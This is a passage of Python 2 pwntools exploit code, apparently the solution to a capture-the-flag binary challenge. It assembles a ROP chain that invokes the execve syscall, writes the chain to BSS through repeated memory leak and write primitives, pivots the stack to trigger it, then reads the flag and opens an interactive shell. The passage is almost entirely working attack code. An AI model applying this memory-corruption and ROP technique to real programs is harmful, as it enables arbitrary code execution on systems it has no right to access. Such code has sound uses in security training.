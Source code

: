 ```python
        rop += rebase_0(0x00000000000460ac) # 0x00000000000460ac: pop rax; ret;
        rop += p64(0x0000000000000000)
        rop += rebase_0(0x000000000000d9f2) # 0x000000000000d9f2: pop rsi; ret;
        rop += rebase_0(0x00000000002b1128)
        rop += rebase_0(0x0000000000077901) # 0x0000000000077901: mov qword ptr [rsi], rax; ret;
        rop += rebase_0(0x00000000000084fa) # 0x00000000000084fa: pop rdi; ret;
        rop += rebase_0(0x00000000002b1120)
        rop += rebase_0(0x000000000000d9f2) # 0x000000000000d9f2: pop rsi; ret;
        rop += rebase_0(0x00000000002b1128)
        rop += rebase_0(0x00000000000484c5) # 0x00000000000484c5: pop rdx; ret;
        rop += rebase_0(0x00000000002b1128)
        rop += rebase_0(0x00000000000460ac) # 0x00000000000460ac: pop rax; ret;
        rop += p64(0x000000000000003b)
        rop += rebase_0(0x000000000006e605) # 0x000000000006e605: syscall; ret;

        # Write ROP to BSS
        # The first write couldn't use following function
        # because the stack layout is affected by previous leak/write
        offset = 0 * 8
        _write(bss_addr + offset, rop[offset: offset + 8])
        stack_ptr = _leak(1)
        _write(stack_ptr - 8, p64(main_addr))
        stack_ptr = _leak(1)
        _write(stack_ptr - 8, p64(main_addr))

        print "Write Stage 1"

        def write_rop(i):
            offset = i * 8
            stack_ptr = _leak(1)
            _write(bss_addr + offset, rop[offset: offset + 8])
            stack_ptr = _leak(1)
            _write(stack_ptr - 8, p64(main_addr))
            stack_ptr = _leak(1)
            _write(stack_ptr - 8, p64(main_addr))

        for i in range(1, len(rop) / 8):
            write_rop(i)
            print "Now is: " + str(i)

        print "Write All"

        # trigger our ROP
        stack_ptr = _leak(1)
        print "RET Value: " + hex(stack_ptr + 0x38)
        _write(stack_ptr + 0x38, p64(base_addr + 0x946a))
        stack_ptr = _leak(1)
        print "RSP Addr: " + hex(stack_ptr + 0x20)
        _write(stack_ptr + 0x20, p64(bss_addr))
        print "Triggering ROP"

        p.sendline("cat flag")
        print p.recvline()
        sleep(0.5)
        p.sendline("cat /flag")
        print p.recvline()
        p.interactive()

    except:
        p.close()
        print "Trying: " + str(i)


```